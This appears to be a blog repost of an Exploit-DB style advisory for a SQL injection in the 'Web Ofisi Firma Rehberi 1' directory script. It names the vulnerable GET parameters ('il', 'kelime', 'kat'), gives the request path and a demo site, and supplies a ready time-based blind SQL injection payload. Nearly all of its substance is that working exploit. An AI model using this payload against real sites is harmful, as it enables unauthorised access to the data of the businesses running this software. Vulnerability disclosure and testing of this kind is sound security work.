 ```yaml
---
layout:     post
title:      "Web Ofisi Firma Rehberi 1 - 'il' SQL Injection"
date:       2019-07-19 12:11
author:     "Ahmet Ümit BAYRAM"
category:   exploit
tags:       [sql, sqli, sql injection, exploit-db]
---
```


# Exploit Title: Web Ofisi Firma Rehberi 1 - 'il' SQL Injection
# Date: 2019-07-19
# Exploit Author: Ahmet Ümit BAYRAM
# Vendor: https://www.web-ofisi.com/detay/firma-rehberi-scripti-v1.html
# Demo Site: http://demobul.net/firma-rehberi-v1/
# Version: v1
# Tested on: Kali Linux
# CVE: N/A

----- PoC: SQLi -----

Request:
http://localhost/[PATH]/firmalar.html?il=0&kat=&kelime=&siralama=yeni
Vulnerable Parameters: il,kelime,kat (GET)
Payload: 0'XOR(if(now()=sysdate(),sleep(0),0))XOR'Z
